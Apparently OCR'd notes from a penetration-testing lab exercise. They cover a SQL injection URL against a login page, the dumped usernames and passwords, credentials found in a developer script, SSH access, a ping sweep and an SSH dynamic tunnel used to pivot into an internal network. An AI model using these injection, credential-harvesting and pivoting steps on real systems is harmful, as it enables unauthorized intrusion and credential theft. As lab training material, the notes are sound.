 · T1 cont:

o go to website and inspect the 'employee login' page html, see that it has a login.php option

o do a sql injection with http://10.50.20.191/login.php?username=tom%27%20OR%201=%271%20&%20passwd=tom%27%20OR%201=%271 (copy and pasted from our notes) and get the following info

§ Array ( [0] => user2 [name] => user2 [1] => RntyrfVfNER78 [pass] => RntyrfVfNER78 ) 1Array ( [0] => user3 [name] => user3 [1] => Obo4GURRnccyrf [pass] => Obo4GURRnccyrf ) 1Array ( [0] => Lee_Roth [name] => Lee_Roth [1] => anotherpassword4THEages [pass] => anotherpassword4THEages ) 1

§ user2: RntyrfVfNER78 (EaglesIsARE78)

§ user3: Bob4THEEapples

o Sadly this doesn't exactly get us anywhere at the moment, but may be helpful later. So! Let's go back to that nmap --script http-enum thing and enumerate all of those website

§ login.php, we've seen before

§ login.html, we've seen before

§ img, some cool photos I guess

§ scripts, open it up!!! look below

#!/usr/bin/python3 import os

system_user=user2 user_password=EaglesIsARE78 ##Developer note #script will eventually take above system user credentials and run automated services

BestWebApp

· Perform Reconnaissance

vii. Find all information about, and contained within, the target system to include potential phishing targets, website directory structure, and hidden pages.

viii. Actively scan and interact with target to find potential attack vectors.

· Attempt Exploitation

ix. Attempt to retrieve privileged information from the target by using information found in reconnaissance. Reconnaissance from other targets within the network may have information relevant to any target. BestWebApp

Start of T2 enumeration (BestWebApp Notes) · ssh user2@10.50.20.191

· cd etc

· cat hosts

# The following lines are desirable for IPv6 capable hosts ::1 ip6-localhost ip6-loopback fe00::0 ip6-localnet ff00::0 ip6-mcastprefix ff02::1 ip6-allnodes ff02::2 ip6-allrouters ff02::3 ip6-allhosts 192.168.28.181 WebApp

· ping sweep with for i in {1..254};do (ping -c 1 192.168.28.$i | grep "bytes from" &); done

64 bytes from 192.168.28.172: icmp_seq=1 ttl=63 time=1.98 ms 64 bytes from 192.168.28.181: icmp_seq=1 ttl=63 time=2.09 ms 64 bytes from 192.168.28.190: icmp_seq=1 ttl=64 time=0.467 ms · open up dynamic back on LIN-OPS STATION ssh -D 9050 user2@10.50.20.191 -NT with the T1 creds you found
